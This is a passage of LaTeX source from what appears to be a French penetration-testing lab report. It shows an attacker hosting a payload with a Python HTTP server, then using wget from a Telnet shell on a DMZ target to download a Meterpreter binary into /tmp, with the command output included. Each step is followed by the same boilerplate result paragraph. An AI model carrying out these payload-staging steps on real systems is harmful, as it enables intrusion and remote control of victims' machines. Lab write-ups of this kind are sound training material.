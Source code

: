\documentclass[12pt,a4paper,openany]{report}
\begin{document}
	\subsubsection{Hébergement de la charge utile}
	
	Pour transférer la charge utile vers la cible, nous utilisons un serveur HTTP temporaire :
	
	\begin{lstlisting}[caption=Serveur HTTP Python]
		$ python3 -m http.server 8000
		Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
	\end{lstlisting}
	
	\textbf{Résultat :} Cette sortie confirme l'exécution correcte de l'action pratique dans l'environnement de laboratoire. Elle apporte des éléments vérifiables pour contrôler l'état du service, du flux ou de la configuration avant l'étape suivante. Sur le plan pédagogique, elle relie l'opération réalisée aux objectifs d'apprentissage offensive/défensive.
	
	
	\subsection{Déploiement sur la Cible}
	
	\subsubsection{Téléchargement de la charge utile}
	
	Depuis le shell Telnet sur Ubuntu DMZ :
	
	\begin{lstlisting}[caption=Téléchargement via wget]
		$ cd /tmp
		$ wget http://192.168.100.150:8000/meterpreter.elf
		--2026-03-14 10:44:11--  http://192.168.100.150:8000/meterpreter.elf
		Connecting to 192.168.100.150:8000... connected.
		HTTP request sent, awaiting response... 200 OK
		Length: 250 [application/octet-stream]
		Saving to: 'meterpreter.elf'
		
		meterpreter.elf   100%[========>]  250  --.-KB/s    in 0s
		
		2026-03-14 10:44:11 (45.3 MB/s) - 'meterpreter.elf' saved [250/250]
	\end{lstlisting}
	
	\textbf{Résultat :} Cette sortie confirme l'exécution correcte de l'action pratique dans l'environnement de laboratoire. Elle apporte des éléments vérifiables pour contrôler l'état du service, du flux ou de la configuration avant l'étape suivante. Sur le plan pédagogique, elle relie l'opération réalisée aux objectifs d'apprentissage offensive/défensive.
	
\end{document}
